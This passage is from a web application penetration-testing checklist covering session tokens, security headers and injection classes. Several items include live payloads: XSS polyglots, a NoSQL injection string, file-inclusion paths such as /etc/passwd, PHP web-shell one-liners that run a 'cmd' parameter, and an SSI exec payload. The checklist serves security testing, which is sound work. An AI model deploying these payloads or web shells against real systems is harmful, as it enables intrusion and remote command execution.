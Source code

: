- [ ] Session token still valid after logout
- [ ] Check HTTPOnly and Secure flags
- [ ] Sensitive information in session tokens
- [ ] JWT token present
	- [JWT attacks](https://pentestbook.six2dez.com/enumeration/webservices/jwt)
	- https://token.dev/ might derive private key that works

---
## Headers

- [ ]  X-XSS-Protection
- [ ]  Strict-Transport-Security
- [ ]  Content-Security-Policy
- [ ]  Public-Key-Pins
- [ ]  X-Frame-Options
- [ ]  X-Content-Type-Options
- [ ]  Referer-Policy
- [ ]  Cache-Control
- [ ]  Expires
---

## Data validation and injection
- [ ] Allows malicious file upload
	- EICAR test string: `X5O!P%@AP\[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H\*`
	- [Upload Insecure Files: PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
	- [ExploitDB File Upload Bypasses](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
- [ ] Open redirects
- [ ] HTML injection
- [ ] XSS
	- polyglots:
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e


start`'>">');");'};"};']"]\kreep\\<script>alert("${{7*7}}")</script>["['{"{'("('<"<'
```
- [ ] SQL injection
- [ ]  NoSQL injection
	- `' || 'a'=='a`
	- [NoSQLMap](https://github.com/codingo/NoSQLMap)
- [ ] SSTI
- [ ] SSRF
- [ ] LFI/RFI
	- Linux: `/etc/passwd`
	- Wind: `C:\\boot.ini` or `C:/windows/system32/drivers/etc/hosts`
	- `<?php echo shell_exec($_GET['cmd']);?>`
	- `<?php passthru($_GET['cmd'] . ' 2>&1'); ?>` 
		- Redirects stderr to stdout
	- `expect://command`
	- Resources:
		- [Pentestbook: LFI + RFI](https://pentestbook.six2dez.com/enumeration/web/lfi-rfi)
- [ ] SSI (Server Side Includes)
	- `<!--#echo var="REMOTE_ADDR" -->`
	- ``<!--#exec cmd="whoami" -->``
- [ ] XXE (XML) injection
- [ ] LDAP injection
- [ ] OS command injection#
- [ ] Overflows
	- [ ] long input
	- [ ] format string inputs